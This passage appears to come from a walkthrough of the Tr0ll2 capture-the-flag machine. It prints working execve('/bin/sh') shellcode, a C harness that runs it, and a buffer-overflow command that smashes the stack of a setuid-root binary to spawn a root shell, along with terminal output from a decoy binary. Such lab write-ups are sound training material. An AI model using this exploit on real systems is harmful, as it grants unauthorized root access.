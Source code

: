 ```bash
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

### Exploiting the Binary
```bash
env - ./r00t $(python -c 'print "A" * 268 + "\x70\xfb\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

#### Running Exploit on Wrong Binary
Another nice trick played, the binaries are changing its places, so here's what happens when you run the exploit on the wrong binary

```shell-session
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ env - ./r00t $(python -c 'print "A" * 268 + "\x70\xfc\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
Good job, stand by, executing root shell...
BUHAHAHA NOOB!
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$
```

So the way to find the right binary is to look at the **`size`** of the binary files, the binary with biggest size is our target.

```shell-session
noob@Tr0ll2:/nothing_to_see_here/choose_wisely$ ls -al door*
door1:
total 20
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 8401 Oct  5  2014 r00t

door2:
total 16
drwsr-xr-x 2 root root 4096 Oct  4  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7271 Oct  4  2014 r00t

door3:
total 16
drwsr-xr-x 2 root root 4096 Oct  5  2014 .
drwsr-xr-x 5 root root 4096 Oct  4  2014 ..
-rwsr-xr-x 1 root root 7273 Oct  5  2014 r00t
noob@Tr0ll2:/nothing_to_see_here/choose_wisely$ 
```
